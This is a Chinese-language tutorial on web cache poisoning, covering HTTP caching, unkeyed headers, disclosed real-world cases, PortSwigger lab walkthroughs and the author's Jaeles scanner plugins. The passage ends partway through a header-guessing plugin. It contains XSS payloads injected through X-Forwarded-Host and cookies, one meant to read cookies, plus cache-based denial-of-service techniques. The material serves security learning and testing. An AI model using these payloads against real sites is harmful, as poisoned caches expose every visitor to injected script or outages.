

> 上善若水。水善利万物而不争，处众人之所恶，故几于道。

web cache poisoning(web缓存投毒攻击) 一直是一种理论上的漏洞，James Kettle的研究将理论带入到实践。web缓存投毒攻击因James Kettle在black hat 2018 和black hat 2020关于缓存投毒的演讲而知名

本篇文章结合了James Kettle及其他人员关于 web cache poisoning 的研究成果，并结合案例及靶机进行讲解。

<!-- more -->

## 1. 基础概念

### 1.1 web 缓存

web缓存在网络世界中无处不在，处于client 和 server之间，保存着某些响应的副本，当下次请求同一个资源的时候，缓存会将响应直接返回给client，而不用再去请求server。


缓存存在的目的就是提升网页加载速度、减少server的负载。有些公司可能会使用类似Varnish的软件来建自己的缓存，但更多的会选择使用其他厂商的CDN服务，比如Cloudflare。随着CDN的流行，许多web应用程序或框架已经内部集成了缓存的功能，比如Drupal。除了web缓存外，还有其他类型的缓存，比如浏览器缓存、DNS缓存等，但这些不在本次讨论的范围中。


### 1.2 不同种类的缓存

**1. 数据库缓存**

有的web应用，数据表繁多，如果频繁进行数据库查询，很容易导致数据库不堪重负。为了提高查询的性能，会将查询后的数据放到内存中进行缓存，下次查询时，直接从内存缓存返回，提高响应效率，常用的缓存方案有memcached、redis等。

**2. 服务端缓存（本文的攻击目标就是服务端缓存）**

服务端缓存包含代理服务器缓存和CDN缓存，也就是我们的攻击目标，如果是浏览器缓存攻击不在本文讨论范围之内

1）代理服务器缓存

代理服务器是浏览器和源服务器的中间服务器，浏览器先向这个中间服务器发起Web请求，经过处理后（比如权限验证，缓存匹配等），再将请求转发到源服务器。

2）CDN缓存

CDN(Content delivery networks)缓存，也叫网关缓存、反向代理缓存。浏览器先向CDN网关发起Web请求，网关服务器后面对应着一台或多台负载均衡服务器，会根据它们的负载请求，动态将请求转发到合适的服务器上。

**3. 浏览器端缓存**

浏览器缓存(Browser Caching) 是浏览器端保存数据用于快速读取或避免重复资源请求的优化机制，有效的缓存使用可以避免重复的网络请求和浏览器快速地读取本地数据，整体上加速网页展示给用户。

**4. Web应用层缓存**

应用层缓存指的是从代码层面上，通过代码逻辑和缓存策略，实现对数据，页面，图片等资源的缓存，可以根据实际情况选择将数据存在文件系统或者内存中，减少数据库查询或者读写瓶颈，提高响应效率。

web应用缓存。


### 1.3 HTTP协议如何控制web缓存

如果是服务端代理的形式，发起http请求时候，会遇到三种情况

- 无缓存标识/无缓存结果，直接请求服务器

  

- 存在缓存结果和缓存标识，但结果失效，使用协商缓存。有两种情况

  1. 协商后内容没有更新

     

  2. 协商后内容更新

     

  

- 存在该缓存结果和缓存标识，且该结果尚未失效，强制缓存生效，直接返回该结果

​       


**http协议控制缓存在两种方式，分为强制缓存和协商缓存。**

#### 1. 强制缓存

强制缓存由expires和cache-control控制，expire是HTTP1.0控制缓存的字段，而cache-control是http1.1控制缓存的字段，当两个同时存在时，cache-control优先

**Expires：**

Expires的值为缓存到期时间，即再次发起该请求时，如果客户端的时间小于Expires 的值时，直接使用缓存结果。Expires判断是否使用缓存的依据是比对客户端与服务端的相对时间，这就存在一个问题，如果客户端自己修改了一个时间，那么服务端定义的过期时间就毫无意义。所以后面HTTP1.1的cache-control使用了绝对时间来解决这个问题。


**Cache-Control**

在 `HTTP/1.1` 中，`Cache-Control` 是最重要的规则，主要用于控制网页缓存，主要取值为：

- `public`：所有内容都将被缓存（客户端和代理服务器都可缓存）。
- `private`：所有内容只有客户端可以缓存，`Cache-Control` 的默认取值。
- `no-cache`：客户端缓存内容，但是是否使用缓存则需要经过协商缓存来验证决定。
- `no-store`：所有内容都不会被缓存。
- ` max-age=xxx (xxx is numeric)`：缓存内容将在 `xxx` 秒后失效。
- `must-revalidate`: 使用一个过期资源需要和服务端协商


如下图是某个请求的返回包内容里面有，max-age和expires同时存在，这种情况使用max-age。

 


#### 2. 协商缓存

**Last-Modified/If-Modified-Since**

1） Last-Modified

标示这个资源的最后修改时间，web服务器在响应请求时，告诉浏览器资源的最后修改时间。

2）If-Modified-Since

当资源过期时（使用cache-control标识的max-age)，发现资源具有Last-Modified声明，则再次向web服务器请求时带上头if-Modified-Since标识，与被请求资源的最后修改时间进行比对，若最后修改时间较新，说明资源被改动过，则响应整片资源内容（写在响应消息包体内），HTTP 200；若最后修改时间较旧，说明资源无新修改，则响应HTTP 304 (无需包体，节省带宽)，告知浏览器继续使用所保存的cache。

我们看一个真实的例子，有一个请求如下

<pre>GET /synthesislink/5651.html HTTP/1.1
Host: evt.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: _hc.v=3bb63beb-3ffc-8a6e-2582-88889c8cf324.1612693648; _lxsdk_cuid=177b98e84b1c8-01596ea0d5b2a-44596b-13c680-177b98e84b1c8; _lxsdk=177b98e84b1c8-01596ea0d5b2a-44596b-13c680-177b98e84b1c8
Upgrade-Insecure-Requests: 1
<font color="red">If-Modified-Since: Tue, 19 Mar 2019 23:59:20 GMT</font>
If-None-Match: "b14f1aaaae22302e7ab07e44a2990ac9"</pre>


响应为：

<pre>HTTP/1.1 <font color="red">304 Not Modified</font>
Server: NWS_TCloud_S2
Connection: close
Date: Mon, 22 Feb 2021 08:29:54 GMT
Cache-Control: max-age=300
Expires: Mon, 22 Feb 2021 08:34:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 0
X-NWS-LOG-UUID: 1089614981990302347 9fc91eb65c4db73a1ff8259ab718718d
X-Via: DIANXIN-JIANGSU_31(304:refresh_hit);DIANXIN-JIANGSU_30(304:ims_hit)
X-Daa-Tunnel: hop_count=1</pre>


观察响应，X-NWS-LOG-UUID是腾讯的CDN节点（[各厂商CDN节点](https://segmentfault.com/a/1190000006673084)），并且有过期时间`Expires: Mon, 22 Feb 2021 08:34:54 GMT` 。由这些信息可知，这是一个CND web缓存。观察请求，`If-Modified-Since: Tue, 19 Mar 2019 23:59:20 GMT`还是2019年的。说明Last-Modified是一个很早的时间，只有If-Modified-Since比Last-Modified时间早才会返回304，所以我们修改一个更早的时间，


<pre>GET /synthesislink/5651.html HTTP/1.1
Host: evt.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: _hc.v=3bb63beb-3ffc-8a6e-2582-88889c8cf324.1612693648; _lxsdk_cuid=177b98e84b1c8-01596ea0d5b2a-44596b-13c680-177b98e84b1c8; _lxsdk=177b98e84b1c8-01596ea0d5b2a-44596b-13c680-177b98e84b1c8
Upgrade-Insecure-Requests: 1
<font color="red">If-Modified-Since: Tue, 19 Mar 2021 23:59:20 GMT</font>
If-None-Match: "b14f1aaaae22302e7ab07e44a2990ac9"</pre>


<pre>HTTP/1.1 200 OK
Server: NWS_TCloud_static_msoc2
Connection: close
Date: Mon, 22 Feb 2021 08:46:54 GMT
Cache-Control: max-age=300
Expires: Mon, 22 Feb 2021 08:51:54 GMT
<font color="red">Last-Modified: Tue, 19 Mar 2019 23:59:20 GMT</font>
Content-Type: text/html;charset=utf-8
Content-Length: 20774
X-NWS-UUID-VERIFY: 29a5326de1ddd86a7ec8ed63875a0b94
X-NWS-LOG-UUID: 9138859087622259624 5476affaca7698add4248c29c918eb79
X-Cache-Lookup: Hit From Disktank3
Keep-Alive: timeout=5
Accept-Ranges: bytes
ETag: "b14f1aaaae22302e7ab07e44a2990ac9"
X-Amz-Id-2: adee119763fb198799edc98469117b30
X-Amz-Request-Id: 1613955595686967
X-Mss-Trace-Id: 5209824156916383142
X-Route-Trace-Id: 5293343060162248102
x-amz-storage-class: STANDARD
Access-Control-Allow-Origin: *
X-Daa-Tunnel: hop_count=3
X-Cache-Lookup: Hit From Inner Cluster
X-Via: DIANXIN-SHANDONG_144(200:miss);DIANXIN-SHANDONG_166(200:refresh_miss)
X-Cache-Lookup: Hit From Upstream
X-Cache-Lookup: Hit From Inner Cluster</pre>


观察上面两个请求包，可以知道通过修改`If-Modified-Since`刷新了缓存，在响应中也出现了时间Last-Modified的值为2019年的日期，印证了我们的猜想。这个例子也说明通过Last-Modified/If-Modified-Since控制缓存是没有什么意义的，可以对其篡改。


**Etag/If-None-Match**

Etag/If-None-Match也要配合Cache-Control使用。

1）etag: 

web服务器响应请求时，告诉浏览器当前资源在服务器的唯一标识（生成规则由服务器决定）。Apache中，ETag的值，默认是对文件的索引节（INode），大小（Size）和最后修改时间（MTime）进行Hash后得到的。

2）If-None-Match：

当资源过期时（使用Cache-Control标识的max-age），发现资源具有Etage声明，则再次向web服务器请求时带上头If-None-Match （Etag的值）。web服务器收到请求后发现有头If-None-Match 则与被请求资源的相应校验串进行比对，决定返回200或304。


**4. 既生Last-Modified何生Etag**

既然使用Last-Modified能够知道资源是否足够新，为什么还需要Etag（实体标识）呢？主要解决如下几个问题。

1） Last-Modified标注的最后修改只能精确到秒级，如果某些文件在1秒钟以内，被修改多次的话，它将不能准确标注文件的修改时间。

2）如果某些文件会被定期生成，当有时内容并没有任何变化，但Last-Modified却改变了，导致文件没法使用缓存。

3）有可能存在服务器没有准确获取文件修改时间，或者与代理服务器时间不一致等情形。

Etag是服务器自动生成或者由开发者生成的对应资源在服务器端的唯一标识符，能够更加准确的控制缓存。Last-Modified与ETag是可以一起使用的，服务器会优先验证ETag，一致的情况下，才会继续比对Last-Modified，最后才决定是否返回304。


如下图etag和last-modified同时存在，优先使用etag。

 


### 1.4 cache key

当缓存收到一个请求，它需要判断是否存有该请求的响应，如果有就直接返回，没有就将该请求转发到服务器。

缓存为了确定本次请求的响应是否存在，它需要拿本次请求和之前保留的做匹配，如果匹配上就说明存有响应。匹配时如果一个字节一个字节的比较效率会很低，因为HTTP请求充斥着对于cache来说无关紧要的信息，比如User-Agent。

为了解决这个问题，提出了cache key的概念。cache key就是用来使用http请求的其中几个元素来确认这个资源之前被请求过。

<pre>GET <font color="red">/blog/post.php?mobile=1</font> HTTP/1.1
Host: <font color="red">example.com</font>
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://google.com/
Cookie: jessionid=xyz;
Connection: close</pre>


比如上面的请求包的 cache key 就是:

<pre>	Cache Key: https|GET|example.com|/blog/post.php?mobile=1</pre>

大多数cache key是host和路由，但这并不是绝对的。


如果一个非cache key的缓存资源被污染了，那么后续用户访问同一个cache key的资源会被影响。

如下两个请求对于cache来说是一样的，请求1的响应会是请求2的响应。

请求1:

<pre>GET /blog/post.php?mobile=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 … Firefox/57.0
Cookie: language=<font color="red">pl</font>;
Connection: close</pre>


请求2:

<pre>GET /blog/post.php?mobile=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 … Firefox/57.0
Cookie: language=<font color=red>en</font>;
Connection: close
</pre>


结果就是发起第二个请求的人会收到错误的语言。这就是问题所在，任何一个不存在于 cache key的不同输入都有可能作为response存在于cache中，然后返回给其他用户。理论上网站可以使用响应头的'Vary'字段来制定将什么内容加入到 cache key ，比如加入`Vary: Cookie`那么缓存服务器就会比对Cookie是否也一样，上述两个请求肯定不一样，所以缓存服务器不会直接返回之前存储的内容，而是转发给服务器。但实际上，响应头的'Vary'基本都会被开发者忽略，像Cloudflare这种CDN厂商完全忽略'Vary'


### 1.5 unkeyed

unkeyed在本文中就是指不属于cache key，但是这个unkeyed值可能导致一些危害的参数或者HTTP头。


### 1.6 缓存投毒

缓存投毒的攻击理念就是发起一个能导致有害响应的请求，让cache保存此响应，然后提供给其他用户。


本文主要讨论使用未加入 cache key的HTTP请求头的投毒方式，当然不止这一种，其他方式比如请求http 请求拆分、请求走私。其他方式将在后续的文章进行分享。类似的有一种[web缓存欺骗](https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html)的攻击方式，不要混淆了这两种攻击方式，后续有机会可以分享一下这种攻击方式。


### 1.7 缓存投毒的影响

缓存投毒的影响严重依赖以下两个重要因素。

- 缓存投毒攻击的影响程度取决于注入的payload，和大多数攻击方式一样，缓存投毒需要和其他漏洞组合起来以提升危害性。
- 访问量。因为缓存投毒的攻击目标是投毒后的资源访问群体，所以访问的人越多就危害越大。


### 1.8 如何进行一个缓存投毒漏洞的挖掘

总的来说，挖掘一个缓存投毒漏洞的步骤如下：

**1. 确认unkeyed**

第一步就是确认没有被纳入cache key的http请求头，通常是找参数或者请求头回显点能否和缓存关联，手工来检测是一项非常乏味的工作，因此作者开发了一款叫 Param Miner的 Burp Suite插件来自动挖掘。但是我在实际使用过程中效果很一般，找一些常见的请求头回显还是有点用的。

**2. 构造利用手段**

在找到unkeyed后，就是判断判断是否能够造成危害，通常的方法是结合xss等漏洞。


## 2. 不同的攻击方式

让我们看看作者讲的一些真实案例。通常，测试这些站点都是点到为止，不会对站点造成影响。由于这些站点都是公开站点，所以不可避免要修改一些内容。


### 2.1 redhat的一个投毒案例

主页中，`X-Forwarded-Host: canary`出现在了meta标签中。这里`X-Forwarded-Host: canary`就是unkeyed

```http
GET /en?cb=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<meta property="og:image" content="https://canary/cms/social.png" />
```

为了不影响其他用户，这里作者找到一个可以自己定义参数的页面，添加xss的poc。

```http
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/> 
```

成功触发了POC。但是这只是一个self xss，是没有什么危害性。但是如果存在缓存投毒，就可以将XSS存储到缓存中，之后访问的用户就会触发XSS。从而攻击到其他用户。


### 2.2 投毒时机

对于上面的例子，如果我们要对主页进行真的投毒攻击，我们可能会选择使用Burp Intruder模块进行持续性投毒，因为我们不知道缓存在什么时候过期，并且要在它刚好过期的时候投毒成功。如果持续发送大量数据包，可能会引起注意，这会让投毒攻击变得困难，当然，可以通过对缓存系统进行逆向、查看文档和监控等手段来预测到期时间，但是这听起来就是一项艰苦的任务，有时候往往比这简单。

看下面的例子

```http
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```

unity3d.com的响应头的Age和max-age分别提供了当前响应时间和过期时间，这为我们投毒时机做了明确的指引。


### 2.3 选择性投毒

如下例子中，Vary响应头告诉我们User-Agent头可能是缓存键的一部分，手工测试也确实如此，这种情况我们就可以定制User-Agent来选择性攻击。

```http
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"><iframe onload=alert(1)>

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
</iframe> 
```


### 2.4 DOM投毒

如下的案例中，非缓存键是`X-Forwarded-Host: canary`，但是此处对XSS做了防御，不能直接利用XSS进行攻击。

```http
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```

作者在Burp Suite中做了一个替换，将canary替换为了类似`xxx.dnslog.cn`的dnslog地址，然后继续浏览，在dnslog平台收到了来自Firefox的如下请求：

```http
GET /api/i18n/en HTTP/1.1
Host: xxx.dnslog.net
```

这个路径应该是藏在该站的某处，通过访问`https://catalog.data.gov/api/i18n/en`发现返回空的json数据。作者将en改为es，发现了一点蛛丝马迹。

```http
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

这个文件将词组翻译成用户选择的语言，于是，作者在自己的vps上部署了一个相同路径的json XSS POC `{"Show more":"<svg onload=alert(1)>"}`。发送如下数据包，投毒成功。

```http
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

结果就是任何页面包含“show more"都会执行POC。


### 2.5 劫持 Mozilla SHIELD系统

在测试` catalog.data.gov`的时候，log上还发现了如下的请求

```http
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net
```

这个请求的小写`origin`引起了作者的注意。通过查询代理记录，发现是firefox的问题。

```http
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
```

通过查询得知，该系统是[SHIELD](https://wiki.mozilla.org/Firefox/Shield)，一个FIrefox的基础设施，用来营销和研究用户。只要打开firefox，就会定期请求。意味着作者可以控制数以千万的用户访问某个地址，因此可以被用于DDOS攻击。


### 2.6 CPDOS

Cache-Poisoned Denial-of-Service (CPDoS)，由缓存投毒导致的DOS攻击。当攻击者插入一个unkeyed导致服务器返回400等其他异常，如果写入缓存，那么后续访问者只要访问该资源都会是400 状态码。


#### 三种不同的CPDOS

**超大请求头**

HTTP Header Oversize(HHO)。[HTTP标准协议](https://httpwg.org/specs/)没有给HTTP请求头设置任何大小限制，显然web服务器、web框架以及各种中间系统自己定义了HTTP请求头的大小限制。大多数web服务器或者代理服务器比如[Apache HTTP Server ("httpd")](https://httpd.apache.org/)限制请求头在8,192字节左右。然而有些网站中间层系统限制大于8,192字节。 比如[Amazon Cloudfront CDN](https://aws.amazon.com/cloudfront/) 最大允许 20,480字节。

具体的攻击方式就是给unkeyed添加一个字节数小于缓存的请求头，但大于服务端的请求头，服务端就会返回错误然后存入缓存。之后请求该资源返回结果就是错误的响应。


**HTTP元字符**

HTTP Meta Character (HMC)。常见的元字符比如`\n`、 `\r` 、`\a`这些用于在HTTP请求中表示换行的以下字符。HMC类似于HHO，只是将有害的元字符替换了超大请求头


**重写HTTP请求方法**

HTTP Method Override (HMO)。HTTP标准协议定义了GET、POST、DELETE和PUT四种请求方法。许多代理服务器、负载均衡、缓存、防火墙等只支持GET和POST。为了解决这个问题，一些基于REST的API或者web框架提供了例如X-HTTP-Method-Override、X-HTTP-Method、X-Method-Override等请求头来转换HTTP 请求方法。一旦请求到达服务器，服务器就会根据请求头修改请求方法，

<pre>POST /items/1 HTTP/1.1
Host: example.org
<font color="red">X-HTTP-Method-Override: DELETE</font></pre>


<pre>HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 62


Resource has been successfully removed with the DELETE method.</pre>


上诉代码通过添加请求头bypass了不允许的请求方法，同样的如果修改请求头会导致错误响应并且写入缓存，那么也是一个DOS攻击。


不同服务器及CDN的影响情况。


#### 特斯拉的一个缓存DOS漏洞

漏洞地址：https://www.tesla.com/en_GB/roadster

漏洞原因就是特斯拉的waf只要发现`burpcollaborator.net`就会Denied。并且waf是有缓存的，所以命中缓存后，请求该资源就会是Denied。如下添加`dontpoisoneveryone=1`是为了不响应正常用户，真实的攻击的话肯定会直接给https://www.tesla.com/en_GB/roadster投毒。

<pre><font>GET /en_GB/roadster?dontpoisoneveryone=1</font> HTTP/1.1
<font color="red">Host: www.tesla.com</font>
Any-Header: burpcollaborator.net</pre>


<pre>HTTP/1.1 403 Forbidden
<br>Access Denied. Please contact waf@tesla.co</pre>


## 3. 靶场

靶场练习可以使用James Kettle的工具Param Miner(BurpSuite应用商店可找到)。但是我觉得这个工具比较慢比较耗费电脑资源。所以我自己编写了Jaeles漏洞扫描器的一些简单检测插件，由于对插件逻辑不是太熟悉再加上时间不够，目前只完成快速检测回显，后续会加入投毒比对，然后就可以批量检测，而不需要像Param Miner一个站点一个站点的去看了。


### 3.1 缓存判断插件

挖掘一个缓存投毒漏洞的时候，首先要考虑unkeyed的请求是否存在缓存，如果没有缓存就没必要测试缓存问题，判断是否有缓存我们可以通过响应中的特定参数，比如cache-control和expire来判断。


```yaml
id: cacheable
info:
  name: cacheable
  risk: info

params:
  - root: '{{.Raw}}'

requests:
  - method: GET
    url: >-
      {{.root}}
    headers:
      - User-Agent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55'
    detections:
      - >-
        RegexSearch("resHeaders", "Cache-Control: max-age=\d*")
      - >-
        RegexSearch("resHeaders", "ETag:")
      - >-
        RegexSearch("resHeaders", "Last-Modified:")
      - >-
        RegexSearch("resHeaders", "Expires:")  
```


### 3.2 Param Miner的使用

直接在BurpSuite的应用商店找到，点击安装即可。

 


github地址：https://github.com/PortSwigger/param-miner

工具的原理是字典结合比对的方式实现的，比如它要测试x-forwarded-for这个参数是否存在投毒。

它会重复发送两种数据包一个是x-forwarded-for: test，一个是x-forwarded-forxxxx: 1111。如果x-forwarded-forxxxx: 1111的结果是test，就说明投毒成功。为了安全性，param miner会在每个请求的url参数HTTP请求里添加随机参数，以避免影响到正常用户。


除了测试缓存投毒以外，param miner很重要的一个功能是猜测参数、额外的HTTP请求头，DOS攻击。猜测参数它内置了一个字典，该字典是爬取的github上的常见参数组成的字典。


如下图是安装好后，鼠标右键出现的一些选项。

 


可以在顶部按钮点击进行配置，当然也可以测试的时候单独配置。配置项里面一般默认配置就可以了，如果其他配置，可以根据需要勾选。一般我们右键直接`Guess everything`就好了，但是一般这样很慢，所以有时候选择只猜测请求头也是不错的`Guess headers`


### 3.3 X-Forwarded-Host 投毒

这个漏洞通过对X-Forward-Host投毒，将self xss转化对任意用户的xss攻击。

首先访问`PortSwigger`的 `Lab: Web cache poisoning with an unkeyed header`实验，[实验地址](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

访问后如下所示


#### 确认unkeyed

首先测试一下请求头是否会直接返回到响应中，因为缓存投毒攻击最常见的就是host头的投毒，我编写了一个针对X-Forward-Host回显的jaeles扫描器插件。

```yaml
# X-Forwarded-Host in Response
id: x-forwarded-host
type: fuzz
info:
  name: Reflect for X-Forwarded-Host
  risk: Low

variables:
  - ran: 'RandomString(4)'

payloads:
    - 'xforhosttest{{.ran}}'
    - 'xforhosttest{{.ran}}'
    - 'xforhosttest{{.ran}}'
    - 'xforhosttest{{.ran}}'
    - 'xforhosttest{{.ran}}'

requests:
  - generators:
      - Header("{{.payload}}", "X-Forwarded-Host")
    detections:
      - >-
        StatusCode() == 200 && StringSearch("Response","xforhosttest")


```

插件说明：

> 1. 生成一个4位的随机数(可要可不要)
>
> 2. 添加一个标识: "cookiereflect"。组合成payload: 随机数+标识
>
> 3. 5个一样的payload表示重复5次发包
>
> 4. 加入到请求头"Header: payload"也就是 "X-Forwarded-Host:xforhosttestxxxx "
>
> 5. 如果状态码是200并且响应包找到"xforhosttest"，表示存在该问题

如果在响应中检测到X-Forwarded-Host的值，说明该值可控。（注意，有时侯需要反复检查，因为不一定会命中缓存）


开启监听后，将主页请求代理到扫描器成功检测出了一个X-Forwarded-Host的回显。


扫描器帮我们发现可疑点后就需要进行手动测试了，将请求放到BurpSuite的Repeater，添加X-Forwarded-Host请求，为了避免影响到其他用户，我们选择别人不会访问的资源，所有构造了一个url: ?test=1 插入X-Forwarded-Host后并没有找到回显。


通过分析，发现是`X-Cache: hit`的原因，hit表示命中缓存，所有X-Forwarded-Host还是之前缓存的内容。不断重放请求知道test回显出来，回显之后继续重放，直到再次出现`X-Cache: hit`。表示现在已经命中了新的缓存。[不同厂商的CDN](https://blog.csdn.net/jeffasd/article/details/60140438) 

#### 构造payload

确认缓存后，接下来就是确认危害性，由于我们是对一个没有人访问的资源进行投毒，所以不会影响到其他用户，可以构造任意的payload。最常见的当然是XSS。

此处我们构造出XSS Payload `"></script><script>alert(document.cookie)</script>`


重放请求直到`X-Cache: hit`命中新的缓存。

用浏览器请求这个资源发现如图，无法弹出cookie。


对cookie进行分析，发现使用了HttpOnly，无法通过js加载Cookie。


通过对X-Forwarded-Host的投毒，成功将self xss转变成了对任意用户的xss攻击。


### 3.4 Cookie投毒

要对cookie进行测试首先得确定是否回显，同样编写了一个针对cook回显的jaeles插件

```yaml
id: cookie-reflect-body
type: fuzz
info:
  name: Cookie reflect in body
  risk: Low

variables:
  - ran: RandomString(4)

payloads:
    - 'cookiereflect{{.ran}}'

requests:
  - generators:
      - Cookie("[[.original]]{{.payload}}")
      - Header("{{.payload}}", "Cookie")
    detections:
      - >-
        StatusCode() == 200 && StringSearch("Response","cookiereflect")
```

插件说明：

> 1. 生成四位随机数
>
> 2. 添加cookiereflect标识
>
> 3. 组成payload: 标识+随机字符
>
> 4. 请求头添加cookie,这里有两种，"Cookie: payload" ; "Cookie:param=payload"
>
> 5. 在响应中搜索标识


检测到回显（在测试可能需要多次测试以命中缓存）后，接下来就是该参数是否是unkeyed。

注入payload:

```
"></script><script>alert(document.domain)</script>
```

重放包，直到`X-Cache: hit`

命中缓存。


任何用户访问主站就会遭受到xss攻击


### 3.5 多个请求头的投毒

后台支持 `X-Forwarded-Host` and `X-Forwarded-Scheme` 两个请求头，当 `X-Forwarded-Scheme` 的值是非https时，服务器会重定向到 https协议的指定URL，该URL的值取决于请求头 `X-Forwarded-Host` 

编写一个插件用来检测此逻辑的插件

```yaml
id: x-forwarded-scheme-http-host-redirect.yaml
type: fuzz
info:
  name: x-forwarded-scheme https host redirect
  risk: Medium

payloads:
  - >-
    http

requests:
  - generators:
      - Header("{{.payload}}", "X-Forwarded-Scheme")
    detections:
      - >-
        StatusCode() == 302
  - generators:
      - Header("{{.payload}}", "X-Forwarded-Scheme")
      - Header("shadowtest", "X-Forwarded-Host")
    detections:
      - >-
        StringSearch("resHeaders", "shadowtest")
```

插件说明：

> 1. 给http请求头添加一个字段"X-Forwarded-Scheme: http"
>
> 2. 如果状态码是302就继续发一个包，添加如下两个请求字段。
>    - "X-Forwarded-Scheme: http"；
>    - X-Forwarded-Host: shadowtest"
> 3. 在这个响应头中搜索"shadowtest", 如果找到表面存在漏洞


除此之外，我另外再写了一个X-Forwarde-Scheme跳转的检测插件，用来做一个粗略的检查

```yaml
id: x-forwarded-scheme-302.yaml
type: fuzz
info:
  name: X-Forwarded-Scheme 302 redirect
  risk: Low

payloads:
  - >-
    http
  - >-
    https

requests:
  - generators:
      - Header("{{.payload}}", "X-Forwarded-Scheme")
    detections:
      - >-
        StatusCode() == 302
```

插件说明

> 给请求头分别添加"X-Forwarded-Scheme: http" 和"X-Forwarded-Scheme: https" 。查看是否有302跳转。


对靶场地址测试后，插件成功检测到了相关安全问题(同样如果是缓存导致的跳转，要多次测试才能命中缓存)。


接下来就是手工验证了。


如上图，我们设置了一个example.com。重定向了example.com。由于命中缓存后，后续用户都会被重定向到example.com。像这种我们可以怎么样来利用呢？

> 1. 如果是一个访问量极大的站，我们可以用来进行ddos攻击
> 2. 我们可以把地址设置成恶意服务器来引入恶意脚本
> 3. 用来做seo优化 


### 3.6 猜测请求头投毒

本实验unkey存在于请求头的X-Host参数，而这这个参数并不存在于HTTP协议，所以我们需要猜测。根据[param Miner](https://github.com/PortSwigger/param-miner)的字典进行简化，编写了如下的测试脚步来进行Header的枚举，进行粗略检测。

```yaml
id: simple-guess-headers
type: fuzz
level: 1
info:
  name: simple Guess headers 
  risk: Low

variables:
  - ran: RandomString(4)
  - head: |
      accept
      accept-charset
      accept-encoding
      accept-language
      x-host
      x-forward-for
      x-forwarded-host
      x-forwarded-scheme
      authorization
      cache-control
      connection
      content-location
      content-type
      cookie
      expires
      forwarded
      from
      proxy-authenticate
      proxy-authorization
      server
      set-cookie
      user-agent
      x-forwarded-protocol
      x-original-url
      x-rewrite-url
      client-ip
      x-real-ip
